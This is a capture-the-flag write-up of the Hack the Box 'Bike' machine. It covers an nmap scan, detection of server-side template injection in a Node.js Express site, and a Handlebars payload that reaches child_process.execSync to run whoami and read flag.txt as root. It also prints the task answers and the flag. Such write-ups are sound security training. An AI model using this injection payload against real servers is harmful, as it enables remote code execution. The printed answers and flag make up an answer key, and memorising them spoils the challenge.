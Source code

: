 # Bike
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Bike 
* Topic: [[SMB]] [[Javascript]] [[SSTI]]
* Difficulty: Very easy
* Date: 16-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What TCP ports does nmap identify as open? Answer with a list of ports seperated by commas with no spaces, from low to high. 
 - **22,80**
2. What software is running the service listening on the http/web port identified in the first question? 
- **node.js**
3. What is the name of the Web Framework according to Wappalyzer? 
- **express**
4. What is the name of the vulnerability we test for by submitting {{7*7}}?
- **Server Side Template Injection**
5. What is the templating engine being used within Node.JS?
- **Handlebars**
6. What is the name of the BurpSuite tab used to encode text? 
- **decoder**
7. In order to send special characters in our payload in an HTTP request, we'll encode the payload. What type of encoding do we use? 
- **URL**
8. When we use a payload from HackTricks to try to run system commands, we get an error back. What is "not defined" in the response error? 
- **require**
9. What variable is the name of the top-level scope in Node.JS? 
- **Global**
10. By exploiting this vulnerability, we get command execution as the user that the webserver is running as. What is the name of that user? 
 - **root**

---
## Flag:
Nmap scan:

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.97.64 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 18:19 EDT
Nmap scan report for 10.129.97.64
Host is up (0.061s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Node.js (Express middleware)
|_http-title:  Bike 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 11.97 seconds
```

It's hosting ssh on port 22 and a web interface on port 80. Upon inspection, the web page is under construction. We can input an e-mail address and get updates on its progress. If we do so, we get a message back containing the e-mail we gave as input.

![](./attachments/Pasted%20image%2020220416012808.png)

This might be vulnerable to multiple kinds of attack.

We can try to find out more about the site using the browser extension called Wappalyzer.

![](./attachments/Pasted%20image%2020220416160703.png)

Like nmap, this extension confirms that the site is written in Node.js and that the web framework is Express.  

Since Node.js (and Python) websites often use template engines to display information to their users, they are also often vulnerable to SSTI attacks. Therefore, we will try to explore this path further.

[HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) provides some great information on how to exploit multiple different types of template engines.

Now we need to find out if the site is indeed vulnerable. We would also like to find out which template engine is being used so we in the end can craft a payload for it.

According to this image from the article, we can follow the tree structure to try and find out what engine is running.

![](./attachments/Pasted%20image%2020220416170535.png)

First, we will submit `${7*7}`. It doesn't get executed though and is just reflected back at us like the e-mail address.

![](./attachments/Pasted%20image%2020220416171325.png)

Therefore, `{{7*7}}` is next in line. When submitted, we get an error. 

This is not bad at all, though. Clearly, our input got interpreted instead of just being reflected back a us. This means that we just confirmed that the site *is* vulnerable to SST injections.

Furthermore, the error message provides us with some valuable information. Handlebars are being used as the Template Engine, and it is running as root.

![](./attachments/Pasted%20image%2020220416014612.png)

We need to try some different inputs, Burp Suite's repeater function can make this a lot easier.

Right click anywhere in the background of the intercepted request, then repeater.

![](./attachments/Pasted%20image%2020220416174154.png)

In the repeater tab we can now see the requests, if we click send we can see the server response on the right side of the window.

At the bottom of our request, we can see the input we made, although a bit distorted due to URL encoding.

![](./attachments/Pasted%20image%2020220416174858.png)

In the [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) article there is a Handlebars section, in it, we find a payload.

```
{{#with "s" as |string|}}
	{{#with "e"}}
		{{#with split as |conslist|}}
			{{this.pop}}
			{{this.push (lookup string.sub "constructor")}}
			{{this.pop}}
			{{#with string.split as |codelist|}}
				{{this.pop}}
				{{this.push "return require('child_process').exec('whoami');"}}
				{{this.pop}}
				{{#each conslist}}
					{{#with (string.sub.apply 0 codelist)}}
						{{this}}
					{{/with}}
				{{/each}}
			{{/with}}
		{{/with}}
	{{/with}}
{{/with}}
```

This looks very complicated, but we will only really be focusing on the following line, the rest is just 'delivery' code.

`{{this.push "return require('child_process').exec('whoami');"}}`

It tries to execute the `whoami` command on the server.

Before sending the payload, though, we need to encode it in URL encoding. With Burp's decode feature, can do this in seconds.

![](./attachments/Pasted%20image%2020220416180907.png)

Paste the URL encoding into the request.

![](./attachments/Pasted%20image%2020220416181027.png)

And send it.

We receive an error message back.

![](./attachments/Pasted%20image%2020220416183034.png)

Require is not defined. It means that we cannot use require in our injection. Thankfully, according to the [documentation](https://nodejs.org/api/globals.html) on Node.js there might be a `process` object available. 

We need to edit our line to:

`{{this.push "return process;"}}`

Then re-encode and send like before.

This time we don't get an error.

![](./attachments/Pasted%20image%2020220416184411.png)

Great, the `[object process]` has been returned. This is handling the current Node.js process. We can try to load a module through it, possibly allowing us to use require again. We will utilize the `'child_process'` module since it has access to executing system commands. We will edit our line to:

`{{this.push "return process.mainModule.require('child_process');"}}`

![](./attachments/Pasted%20image%2020220416232954.png)

It worked, the command executed without errors. 

Now we can try and execute an actual command like `whoami` by changing the line to:

`{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}`

![](./attachments/Pasted%20image%2020220416233853.png)

That's it! We got root. Now we just need to rinse and repeat for every command we want to execute in order to find the flag.

`{{this.push "return process.mainModule.require('child_process').execSync('cd .. ; cat flag.txt');"}}`

Did it. 

![](./attachments/Pasted%20image%2020220416235105.png)


**Flag:** `6b258d726d287462d60c103d0142a81c`

---
**Tags:** [[HackTheBox]]